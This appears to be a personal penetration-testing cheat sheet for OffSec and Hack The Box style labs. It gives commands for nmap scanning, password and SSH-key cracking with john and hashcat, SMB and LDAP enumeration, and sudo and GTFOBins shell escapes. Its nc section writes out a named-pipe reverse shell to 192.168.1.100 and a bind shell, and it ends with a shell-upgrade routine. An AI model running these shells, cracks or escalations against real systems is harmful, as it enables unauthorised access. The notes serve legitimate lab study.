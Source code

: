 - [nmap](#nmap)
- [dirbuster](#dirbuster)
- [nc](#nc)
- [netstat](#netstat)
- [john](#john)
- [hashcat](#hashcat)
- [SSH](#ssh)
- [nano](#nano)
- [GTFOBins](#GTFOBins)
- [smb](#smb)
- [pretty tty](#pretty-terminal)
- [ldap](#ldap)
---


### nmap
```
-v                    # verbose(output if you found something)
-sS ip                # stealth scan for 1000 most common ports
-sT ip                # TCP connect scan most common ports
-p 90-2000            # port ranges
-A                    # agressive scan(perform OS and version checking)
-p-                   # all ports
-sS -sU -p- ip        # scan all TCP and UDP ports
-v -sS -A -T2 ip      # use T4 for internal, T2 for external
-v -sS -p- -A -T2 ip  # like above but scans all TCP ports

-script

```

### dirbuster
```
dirbuster -u url
```

### nc
```
Most ncs in the OffSec lab (like most ncs in popular linux distros) don't support -e. It simply doesn't exist.
The solution is to redirect the stdin/stdout communication through a pipe:
cd /tmp
mknod mypipe p
#for a bind shell
/bin/bash 0< /tmp/mypipe | nc -nlvp 4444 1> /tmp/mypipe
#for a reverse shell
/bin/bash 0< /tmp/mypipe | nc 192.168.1.100 4444 1> /tmp/mypipe
```

### netstat
```
netstat -tulpn # find all open ports
```

### john
```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ~/passwords.txt # passwords
# SSH KEYS
# Create encrypted zip
/usr/sbin/ssh2john ~/.ssh/id_rsa > id_rsa.hash
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

### hashcat
```
hashcat -m <type> hash.txt wordlist.txt
# see type https://hashcat.net/wiki/doku.php?id=example_hashes
```

### ssh
```
# keys must have good permisions
chmod 400 # r by you 
chmod 600 # rw by you
ssh -i key name@host
ssh name@host
```

### nano
```
# Ctrl + R to read files
# useful if you can run nano as root
```

### sudo
```
sudo -l # list the allowed (and forbidden) commands for the invoking user
```

### GTFOBins
```
if the sudo command output is just reading stuff try to resize the terminal so it looks 'less' like 
when outputing, then you can easily !/bin/bash
```

### smb
```
smbclient -N //ip/share
smbmap -H ip
smbmap -u user -p password -H ip
mount -t cifs //ip/share /local/mountpoint
mount -t cifs -o user=username //ip/share /local/mountpoint
```


### pretty-terminal
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### ldap
```
sudo apt install ldap-utils
ldapsearch -x -h 10.10.10.119 -p 389 -s base namingcontexts
ldapsearch -x -h 10.10.10.119 -p 389 -b “dc=lightweight,dc=htb” # use dc from last command if outputed
# now use that info for additional explotation
```
